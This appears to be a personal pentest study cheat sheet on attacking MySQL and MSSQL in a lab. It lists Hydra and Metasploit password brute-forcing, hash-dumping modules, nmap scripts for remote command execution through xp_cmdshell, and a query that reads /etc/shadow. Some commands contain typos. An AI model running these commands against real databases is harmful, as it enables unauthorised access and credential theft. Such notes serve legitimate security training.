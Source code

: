 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## #Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---
# #Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

## msfconsole
### MSQL
- use auxiliary/scanner/mysql/mysql_writable_dirs
	- set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	- setg rhosts 192.168.34.2
		- setg : set globaly
	- set verbose false
	- advanced : advanced options
	- set password "" : null password
	- run
- use auxiliary/scanner/mysql/mysql_hashdump
	- set username root
	- set password "" : doesn't show in options
	- run
	- gives user hashes
- use auxiliary/scanner/mysql/mysql_login
	- set rhost addr
	- set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	- set stop_on_success true
	- set username root
	- run
### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---
## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat
	- 